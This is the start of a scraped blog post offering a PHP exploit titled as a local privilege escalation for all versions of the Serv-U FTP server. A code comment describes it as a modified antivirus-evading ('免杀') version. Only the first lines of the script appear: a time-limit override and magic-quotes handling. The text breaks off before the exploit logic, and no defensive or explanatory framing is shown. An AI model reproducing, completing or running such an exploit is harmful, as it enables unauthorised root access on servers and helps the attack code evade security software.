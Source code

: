 ```yaml
---
title: Serv-U All Version本地提升权限Exp10it Ver 1.5
layout: post
permalink: /20080116-178.html
categories:
  - 服务器
---
```

<div class="codeText">
  <div class="codeHead">
    PHP代码
  </div>
  
  <ol class="dp-c" start="1">
    <li class="alt">
      <span><span><?PHP&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="comment">/**</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="comment">修改免杀版本&nbsp;BY：CiKer</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="comment">**/</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="comment">//</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="comment">//Codez&nbsp;begin</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="comment">//</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="comment">//判断magic_quotes_gpc的值</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span>&nbsp;&nbsp;</span>
    </li>
    <li class="">
      <span>set_time_limit(0);&nbsp;&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;&nbsp;</span>
    </li>
    <li class="">
      <span><span class="keyword">if</span><span>&nbsp;(get_magic_quotes_gpc())&nbsp;{&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="vars">$_GET</span><span>&nbsp;=&nbsp;stripslashes_array(</span><span class="vars">$_GET</span><span>);&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span>}&nbsp;&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;&nbsp;</span>